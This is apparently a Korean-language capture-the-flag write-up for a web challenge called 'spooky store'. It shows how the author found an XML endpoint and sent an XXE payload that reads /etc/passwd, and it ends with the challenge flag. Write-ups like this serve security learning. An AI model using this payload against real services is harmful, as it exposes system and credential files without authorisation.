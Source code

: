 # spooky store
> It's a simple webpage with 3 buttons, you got this :)

![Main](src/spooky_store/main.png)

버튼을 누르면 사진에 나와 있는 곳의 좌표를 출력해준다. API에 요청을 하는 것 같아서 프록시 툴로 확인해봤다.

```xml
<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>1</productId></locationCheck>
```

POST 방식으로 `/location`에 요청을 보낼 때 XML 데이터를 전송하는 것을 볼 수 있었다. XXE Injection을 시도하기 위해 [문서](https://portswigger.net/web-security/xxe)를 참고하여 다음과 같은 페이로드로 요청을 보냈다.

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE locationCheck [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]><locationCheck><productId>&xxe;</productId></locationCheck>
```

![passwd](src/spooky_store/passwd.png)

좌표 대신 `passwd` 파일의 내용이 출력되었고 맨 마지막에 플래그를 확인할 수 있었다.

**utflag{n3xt_y3ar_go1ng_bl1nd}**